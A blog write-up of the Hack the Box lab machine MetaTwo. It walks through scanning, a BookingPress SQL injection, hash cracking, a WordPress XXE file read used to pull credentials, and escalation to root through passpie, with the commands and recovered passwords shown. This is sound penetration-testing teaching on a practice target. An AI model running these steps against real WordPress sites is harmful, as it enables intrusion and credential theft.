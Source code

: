 +++
author = "Nick"
categories = ["hack the box", "Easy"]
date = 2023-04-29T11:00:00.000Z
publishDate = 2023-04-29T11:00:00.000Z
description = "MetaTwo is an easy Linux machine that features a website running Wordpress, which is using a plugin vulnerable to unauthenticated SQL injection (CVE-2022-0739). It can be exploited to reveal the password hash of the Wordpress users which can be cracked to obtain the password for the Wordpress user manager. The Wordpress version in use is vulnerable to an XXE Vulnerability in the Media Library (CVE-2021-29447), which can be exploited to obtain credentials for the FTP server. A file on the FTP server reveals the SSH credentials for user jnelson. For privilege escalation, the passpie utility on the remote host can be exploited to obtain the password for the root user."
draft = false
thumbnail = "/images/meta2/logo.png"
slug = "hack-the-box-meta-two"
summary = ""
tags = ["hack the box", "Easy", "Linux", "Wordpress", "Sanitation", "RCE", "CVE-2002-0739", "WPScan", "John", "Passpie"]
title = "Hack the Box - Meta 2"
url = "/hack-the-box-meta-two"
+++

Welcome back! Today we are doing the Hack the Box machine Meta 2. This machine is listed as an Easy Linux machine. Let's dive in. 

As usual, we start with an `rustscan` of the system. Here are the results:

```
Initiating Ping Scan at 11:12
Scanning 10.129.228.95 [2 ports]
Completed Ping Scan at 11:12, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:12
Completed Parallel DNS resolution of 1 host. at 11:12, 0.02s elapsed
DNS resolution of 1 IPs took 0.02s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 11:12
Scanning 10.129.228.95 [3 ports]
Discovered open port 22/tcp on 10.129.228.95
Discovered open port 80/tcp on 10.129.228.95
Discovered open port 21/tcp on 10.129.228.95
Completed Connect Scan at 11:12, 0.05s elapsed (3 total ports)
Nmap scan report for 10.129.228.95
Host is up, received syn-ack (0.052s latency).
Scanned at 2023-03-22 11:12:18 EDT for 0s

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/local/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.16 seconds
```

We know that we're looking to get in via some sort of web access / exploit. Let's look at what is being hosted on port 80. We notice the site is a `Wordpress` site and that `/wp-admin/` has been disallowed via `robots.txt`. Whenever I run up against a `Wordpress` site, I always throw a quick `WPScan` at it to see what might be able to be leveraged.

Command:
`wpscan --url metapress.htb --plugins-version-detection aggressive --api-token TOKENHERE`

Now the output of this is interesting. We have quite a few vulnerable plugins being shown.

![](/images/meta2/meta1.png)

We get back a bunch of data, like our `Wordpress` version, `PHP` version and other findings. Now the thing here is that these findings are all `Wordpess` specific issues. Meaning they are not related to any plugin's, since none were found. However, we know that to not be accurate given we saw the ability to book time on the site as we were viewing it. While doing manual enumeration, you can see that the site is using `bookingpress` plugin to manage this function.

After researching and attempting some of recomended vulnerabilities, I decided to move into looking at the plugins themselves. After a quick google we can find a few vulnerabilities exist in the plugin. Sifting through the page source, we can deterime the version of the plugin.

![](/images/meta2/meta2.png)

Looks like we've got version 1.0.10 to work with. Lucky for us, an `Data Sanitation` exploit was found in verisons under 1.0.11!

[https://nvd.nist.gov/vuln/detail/CVE-2022-0739](https://nvd.nist.gov/vuln/detail/CVE-2022-0739)

There are a few PoC's out there, I chose the first one Google gave me - [https://github.com/destr4ct/CVE-2022-0739](https://github.com/destr4ct/CVE-2022-0739). 

Now in order for this to work, we need to obtain the `nonce` from our requests - enter `Burpsuite`! If you didn't want to use `Burpsuite` you could simply follow the `curl` PoC listed on the [`WP-Scan` page](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357). I myself, I like `Burpsuite`.

We input [bookingpress_form] in our fields and snoop the web requests. This should reveal our `nonce`.

![](/images/meta2/meta3.png)

![](/images/meta2/4meta3.png)

Now that we have our nonce, we can supply it to our `PoC`.

Command:
`python3 booking-press-expl.py -u http://metapress.htb -n f62de70443`

and we get a hash!

![](/images/meta2/meta5.png)

We can save these hashes to a file for cracking.

Command:
`john -w=/usr/share/wordlists/rockyou.txt hash.lst`

Right off the bat we get one password - `partylikearockstar`. A quick shot at using this password for the `FTP Service` is a bust - damn. Well, we do know that we can use this password to log into the wordpress site as the `manager`. 

If you're unfamiliar with `Wordpress`, that login is located, by default, in `/wp-admin/`. You probably could have guessed that by the `robots.txt` file, right?

Once logged in we can enumerate around a bit more for a better escalation method. Now this is where our `WPScan` from earlier is important. We know from this scan that we are running `Wordpress` version 5.6.2. So we have a few things to work with, a `Wordpress` version, an autorized user, `PHP` version and admin access. If we take what we now know and cross it against what we found via the original `WPScan`, we see that the `XXE` is a likley path forward.

```
 | [!] Title: WordPress 5.6-5.7 - Authenticated XXE Within the Media Library Affecting PHP 8
 ```

 [https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)

 This exploit has a failure in parsing WAVE audio files. Now we can do this manually or we can use this PoC - [https://github.com/Val-Resh/CVE-2021-29447-POC](https://github.com/Val-Resh/CVE-2021-29447-POC).

 We clone the repo down and supply our commands:

 Commands:
 `python3 CVE-2021-29447.py --url http://metapress.htb -u manager -p partylikearockstar --server-ip 10.10.14.2`

![](/images/meta2/meta6.png)

We can see that we've sucessfully extracted the `/etc/passwd` file! Now, we can use this to extract something a bit better, like say an `SSH Key`. We instruct the PoC to download the `SSH key` but no luck. It's either not there or permissions are locked out. Let's try to find something else of use. A common config file is the `wp-config.php` file. In order to get that, we need to know it's path. Now this is something we can get via `nginx` config file. That path is usually `/etc/nginx/sites-enabled/default`.

![](/images/meta2/meta7.png)

We see the path is under `/var/www/metapress.htb/blog`. Now we can extract the `wp-config` file and see what it might have.

![](/images/meta2/meta8.png)

We've now scored an `FTP` account!

![](/images/meta2/meta9.png)

We're now connected. We can start looking around for a privledged way into the box. We see the root directory for the blog is available as well as a directory called `mailer`. We see a file called `send_email.php`. We `GET` this file and examine it. Inside we see hardcoded credentials for `jnelson`!

![](/images/meta2/meta10.png)

Sure enough, these credentials work for `SSH`! We log in an get our `user.txt` flag!

![](/images/meta2/flag1.png)

Now we can start enumerating interally for a way to escalate to `root`. We transfer over a version of `linPEAS` and run it. While that runs we do a quick check with `sudo -l` to see if we have anything that sticks out as privledged. Nothing. 

Now as we're manually enumerating while `linPEAS` is running, we notice a directory called `.passpie`. Inside here is a file called `.keys`. This file is using `PGP`. We also see a file called `.config`. This file only has `{}` as it's content. Next up in the `root.pass` file. This file is encrypted, assumably with the `.key` file we just found.

Digging around `Github` we find the repo for the application - [https://github.com/marcwebbie/passpie](https://github.com/marcwebbie/passpie). So we run the application with no arguments to see what the output is:

![](/images/meta2/meta11.png)

Looking through the documentation, we see we can export the passwords into plain text.

![](/images/meta2/meta12.png)

Now when we try to do just that, we need a passphrase. In this scenario, it's safe to assume that the `.key` file is the passphrase *in* the `PGP` format. So we'll attempt to convert that `PGP` key into a crackable format. We can use `gpg2john` to convert the `.key` file.

Command:
`gpg2john key.php`

Once we've converted it over, we fire up our old friend `john` and let it go again.

Command:
`john -w=/usr/share/wordlists/rockyou.txt crackme.key`

![](/images/meta2/meta13.png)

It works! We have a passphrase of `blink182`. Now we can go back to `passpie` and try to use this as our passphrase for exporting the contents of the current password database. 

Command:
`passpie export root`

![](/images/meta2/meta14.png)

When we export this set, we see that `jnelson`'s password matches what we've found earlier. Giving us a high probability that the `root` password is correct. We `su` over to `root`!

![](/images/meta2/flag2.png)

There we have it, the `root` flag and the box is down! That was fun - see ya'll next time!